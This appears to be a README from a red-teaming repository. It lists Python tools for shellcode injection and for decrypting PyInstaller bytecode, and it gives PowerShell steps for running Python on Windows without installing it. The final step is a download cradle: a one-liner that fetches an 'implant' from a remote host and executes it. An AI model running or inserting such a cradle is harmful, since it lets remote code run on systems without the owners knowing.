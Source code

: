 <p align="center">
  <img src="../_resources/img/0004.png" width="100">
</p>

# Python
With a little work, Python can still be a great tool to use on modern red teaming engagements.

### Table of Contents
  * [Examples](#examples)
  * [Usage](#Usage)


## Examples
| File                                           | Description                                                                            |
|------------------------------------------------|----------------------------------------------------------------------------------------|
| [shellcode_runner.py](src/shellcode_loader.py) | Injects shellcode into the current process with ```VirtualAlloc```/```CreateThread```. |
| [decrypt_bytecode.py](src/decrypt_bytecode.py) | Decrypt AES encrypted bytecode files by pyinstaller.                                                                                       |


## Usage
Python execution without installation on Windows systems:
```ps1
# Download Python:
Invoke-WebRequest -URI https://www.python.org/ftp/python/3.11.0/python-3.11.0-embed-amd64.zip -OutFile python311.zip

# Unzip Archive:
Expand-Archive python311.zip -DestinationPath python311

# Test
.\python311\python.exe -V

# Download Cradle using only standard libraries:
python -c 'import urllib.request;exec(urllib.request.urlopen("http://192.168.1.100/implant.txt").read())'
```
